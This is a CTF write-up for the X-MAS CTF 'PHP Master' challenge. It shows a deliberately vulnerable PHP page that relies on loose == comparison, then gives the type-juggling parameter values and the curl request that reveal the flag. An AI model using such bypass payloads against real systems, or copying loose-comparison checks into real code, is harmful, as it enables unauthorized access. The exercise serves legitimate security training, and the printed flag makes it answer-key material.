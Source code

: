 ![](./../../../assets/images/banner_xmas.png)



    	
            
# PHP Master



## Challenge Author(s):
`yakuhito`

## Description:
```
Another one of *those* challenges.
```

## Target:

`http://challs.xmas.htsp.ro:3000/`

## Objective:

Forge a payload capable of bypassing the various constraints and checks in code, in order to have the flag printed.

## Difficulty/Points: 
`easy/33`

## Flag:
`X-MAS{s0_php_m4ny_skillz-69acb43810ed4c42}`
# 


# Challenge
Connecting to the Web Application, the webpage returned is:
```php

<?php

include('flag.php');

$p1 = $_GET['param1'];
$p2 = $_GET['param2'];

if(!isset($p1) || !isset($p2)) {
    highlight_file(__FILE__);
    die();
}

if(strpos($p1, 'e') === false && strpos($p2, 'e') === false  && strlen($p1) === strlen($p2) && $p1 !== $p2 && $p1[0] != '0' && $p1 == $p2) {
    die($flag);
}

?>

```
This *PHP page* extracts two parameters from the *GET request*, `param1 ($ p1)` and `param2 ($ p2)` and performs the following *checks* on them:
1. Check that the *'e'* character is not present in both *$p1* and *$p2*. 
2. Check that *$p1* and *$p2* have the same length (in number of characters).
3. Verify that *$p1* and *$p2* are different, using `PHP strict negated comparison  (! ==)`.
4. Check that the first character of *$p1* is different from the character *'0'*.
5. Check that *$p1* and *$p2* are equal, using `PHP loose comparison (==)`.

# Solution
The two parameters that respect all the previously mentioned constraints are:
`param1: 1E0003`
`param2: 0010E2`
```console
matt@grol:~$ curl -X GET "http://challs.xmas.htsp.ro:3000/index.php?param1=1E0003&param2=0010E2"
X-MAS{s0_php_m4ny_skillz-69acb43810ed4c42}
```

